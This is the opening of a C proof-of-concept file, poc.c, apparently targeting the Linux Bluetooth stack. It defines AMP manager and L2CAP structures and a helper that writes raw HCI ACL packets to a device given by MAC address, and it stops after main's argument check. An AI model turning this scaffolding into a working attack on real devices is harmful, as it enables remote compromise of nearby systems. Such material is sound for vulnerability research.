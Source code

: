 ### poc.c

```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/uio.h>
#include <bluetooth/bluetooth.h>
#include <bluetooth/l2cap.h>
#include <bluetooth/hci.h>
#include <bluetooth/hci_lib.h>

#define AMP_MGR_CID 0x03

typedef struct {
	uint8_t  code;
	uint8_t  ident;
	uint16_t len;
} __attribute__ ((packed)) amp_mgr_hdr;
#define AMP_MGR_HDR_SIZE 4

#define AMP_INFO_REQ 0x06
typedef struct {
	uint8_t id;
} __attribute__ ((packed)) amp_info_req_parms;

typedef struct {
	uint8_t  mode;
	uint8_t  txwin_size;
	uint8_t  max_transmit;
	uint16_t retrans_timeout;
	uint16_t monitor_timeout;
	uint16_t max_pdu_size;
} __attribute__ ((packed)) l2cap_conf_rfc;

int hci_send_acl_data(int hci_socket, uint16_t hci_handle, void *data, uint16_t data_length) {
  uint8_t type = HCI_ACLDATA_PKT;
  uint16_t BCflag = 0x0000;
  uint16_t PBflag = 0x0002;
  uint16_t flags = ((BCflag << 2) | PBflag) & 0x000F;

  hci_acl_hdr hdr;
  hdr.handle = htobs(acl_handle_pack(hci_handle, flags));
  hdr.dlen = data_length;

  struct iovec iv[3];

  iv[0].iov_base = &type;
  iv[0].iov_len = 1;
  iv[1].iov_base = &hdr;
  iv[1].iov_len = HCI_ACL_HDR_SIZE;
  iv[2].iov_base = data;
  iv[2].iov_len = data_length;

  return writev(hci_socket, iv, sizeof(iv) / sizeof(struct iovec));
}

int main(int argc, char **argv) {
  if (argc != 2) {
    printf("Usage: %s MAC_ADDR\n", argv[0]);
    return 1;
  }

```